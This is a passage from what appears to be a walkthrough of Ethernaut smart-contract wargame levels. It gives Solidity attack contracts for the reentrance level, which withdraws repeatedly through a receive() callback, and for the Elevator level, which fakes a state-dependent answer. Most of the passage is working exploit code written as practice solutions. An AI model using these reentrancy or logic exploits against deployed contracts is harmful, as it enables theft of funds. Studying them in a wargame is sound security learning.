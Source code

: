```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Reentrance {
    function withdraw(uint _amount) external;
    function donate(address _to) external payable;
}


contract ReentranceAttack {

  address payable vulnContract;
  bool status = false;

  constructor(address payable _vulnContract) payable {
      vulnContract = _vulnContract;
      Reentrance(vulnContract).donate{value: msg.value}(address(this));
  }

  function startAttack() external {
      Reentrance(vulnContract).withdraw(0.001 ether);
  }

  receive() external payable {
      if (status == false) {
        status = true;
        Reentrance(vulnContract).withdraw(0.001 ether);
      }
  }
}
```

## Elevator
Here, the objective is to set the top variable to true. To do so, it calls the msg.sender to know if top is true or false. We have to develop a smart contract with a isLastFloor() function that returns false during the first call, then true to the second call.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Elevator {
    function goTo(uint) external;
}

contract Building {
  bool status = false;

  function startAttack(address vulnContract) external {
      Elevator(vulnContract).goTo(10);
  }

  function isLastFloor(uint _floor) external returns (bool) {
      if (status == false) {
          status = true;
          return false;
      } else {
          return true;
      }
  }
}
```
